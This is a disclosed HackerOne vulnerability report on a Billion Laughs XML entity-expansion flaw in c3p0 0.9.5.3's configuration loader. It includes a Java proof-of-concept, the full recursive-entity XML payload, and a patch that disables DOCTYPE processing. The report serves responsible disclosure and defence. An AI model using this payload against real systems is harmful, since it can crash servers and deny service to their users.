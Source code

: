 # c3p0 may be exploited by a Billion Laughs Attack when loading XML configuration

## Report Details
- **Report ID**: 509315
- **URL**: https://hackerone.com/reports/509315
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-03-13T16:34:01.586Z
- **Disclosed**: 2019-04-16T20:05:48.418Z

## Reporter
- **Username**: amassey
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: central-security-project

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to triage and respond quickly, so be sure to take your time filling out the report!  Please refer to the **[example on our policy page](/central-security-project?view_policy=true#disclosure-example)**.

# Maven artifact
**groupId:** com.mchange
**artifactId:** c3p0
**version:** 0.9.5.3

# Vulnerability
## Vulnerability Description
> `c3p0/src/java/com/mchange/v2/c3p0/cfg/C3P0ConfigXmlUtils.java` does not protect against recursive entity expansion when loading configuration. 

## Additional Details
**Source File and Line Number:** https://github.com/swaldman/c3p0/blob/c3p0-0.9.5.3/src/java/com/mchange/v2/c3p0/cfg/C3P0ConfigXmlUtils.java#L154

## Steps To Reproduce:
> Detailed steps to reproduce with all required references/steps/commands. Any sample/exploit code or other proof of concept.

1) Use `C3P0ConfigXmlUtils.extractXmlConfigFromInputStream()` on Billion Laughs XML payload
2) Have a billion laughs while the JVM crashes.

```
import com.mchange.v2.c3p0.cfg.C3P0ConfigXmlUtils;
import java.io.InputStream;

public class C3P0PoC {

    public static void main(String[] args) throws Exception {

        String payload = args[0];
        InputStream inputStream = C3P0PoC.class.getResourceAsStream(payload);

        C3P0ConfigXmlUtils.extractXmlConfigFromInputStream(inputStream, false);


        System.out.println("Completed!");
    }
}
```

XML Payload
```
<?xml version="1.0"?>
<!DOCTYPE lolz [
        <!ENTITY lol "lol">
        <!ELEMENT lolz (#PCDATA)>
        <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
        <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
        <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
        <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
        <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
        <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
        <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
        <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
        <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
        ]>
<lolz>&lol9;</lolz>
```

## Patch

The patch given was adapted from [https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md#jaxp-documentbuilderfactory-saxparserfactory-and-dom4j](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md#jaxp-documentbuilderfactory-saxparserfactory-and-dom4j)

Apply the following before calling `fact.newDocumentBuilder()`.
```
String FEATURE = null;
FEATURE = "http://apache.org/xml/features/disallow-doctype-decl";
fact.setFeature(FEATURE, true);
```

## Supporting Material/References:
> State all technical information about the stack where the vulnerability was found
- Darwin Kernel Version 18.2.0
- 1.8.0_171
- 3.3.9

# Wrap up
> Select Y or N for the following statements:
- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N

> Finder's comments and funny memes goes here

Honestly, this is a pretty complicated attack to pull off. The attack requires poisoned XML configuration data to make to the component's client code. I may have held off on reporting it, but the maintainer did acknowledge a similar attack, twas XXE, under CVE-2018-20433. Since the reporter didn't dispute it, I decided to report this attack as valid as well.

Vulnerabilities like these exist because https://docs.oracle.com/javase/7/docs/api/javax/xml/parsers/DocumentBuilderFactory.html#setExpandEntityReferences(boolean) is a poorly named and documented method thus causing misunderstanding.

I'm on my third five hour energy today.

## Impact

This could be leveraged by an attacker to cause a Denial of Service by crashing the JVM that the server process is running on.

## Attachments
No attachments
